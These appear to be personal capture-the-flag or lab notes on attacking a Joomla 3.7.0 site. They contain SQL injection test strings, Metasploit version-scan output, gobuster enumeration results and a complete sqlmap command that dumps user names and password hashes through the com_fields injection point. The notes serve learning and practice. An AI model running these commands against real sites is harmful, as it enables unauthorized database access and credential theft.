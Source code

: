 This was interesting maybe I can do more to verify Joomla version I tried inputting ' to induce an error or or like  a ' OR True;-- which also failed. It also detected 3306 Maria DB 10.3.23 or earlier on mysql 

inspecting the page made me find this directory in the HTML /index.php/component/users/?Itemid=101" this may be querying a backend database

-------------------------------------------------------------------

msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.132.218
RHOSTS => 10.10.132.218
msf6 auxiliary(scanner/http/joomla_version) > set TARGETURI /administrator/
TARGETURI => /administrator/
msf6 auxiliary(scanner/http/joomla_version) > run
[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/joomla_version) > 

---------------------------------------------------------------------
used metasploit aux scanner to confirm joomla version
then tested some joomla 3.7.0 exploits I see because I can't get the SQLmap version nor this RCE to work

https://www.exploit-db.com/exploits/42033

I then found someone who ran a different command for SQL map WHICH I STILL NEED TO TRY


command: sqlmap -u "http://192.168.1.14/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump --batch

I now tried the command (go back and read your notes)

>
-------------------------------------------------------------------------
gubuster scan
------------------------------------------------------------------------------------------------------------
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.218
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.132.218/images/]
/media                (Status: 301) [Size: 235] [--> http://10.10.132.218/media/]
/templates            (Status: 301) [Size: 239] [--> http://10.10.132.218/templates/]
/modules              (Status: 301) [Size: 237] [--> http://10.10.132.218/modules/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.132.218/bin/]
/plugins              (Status: 301) [Size: 237] [--> http://10.10.132.218/plugins/]
/includes             (Status: 301) [Size: 238] [--> http://10.10.132.218/includes/]
/language             (Status: 301) [Size: 238] [--> http://10.10.132.218/language/]
/components           (Status: 301) [Size: 240] [--> http://10.10.132.218/components/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.132.218/cache/]
/libraries            (Status: 301) [Size: 239] [--> http://10.10.132.218/libraries/]
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.132.218/tmp/]
/layouts              (Status: 301) [Size: 237] [--> http://10.10.132.218/layouts/]
/administrator        (Status: 301) [Size: 243] [--> http://10.10.132.218/administrator/]
